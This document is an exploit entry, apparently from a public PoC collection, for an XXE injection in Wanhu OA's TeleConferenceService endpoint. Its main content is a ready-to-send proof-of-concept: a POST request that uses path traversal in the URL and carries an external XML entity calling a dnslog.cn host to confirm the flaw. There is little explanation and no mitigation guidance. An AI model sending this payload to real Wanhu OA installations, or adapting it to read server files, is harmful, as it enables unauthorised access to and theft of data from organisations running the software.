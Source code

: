 # Wanhu OA TeleConferenceService XXE injection vulnerability

## Vulnerability Description

There is an XXE injection vulnerability in the TeleConferenceService interface of Wanhu OA. The attacker can continue to inject XXE to obtain sensitive information on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA</span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905135417878.png)

Verify POC

```html
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "https://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662357047551-20d92354-25b8-45d0-8be5-fd1437a826ce.png)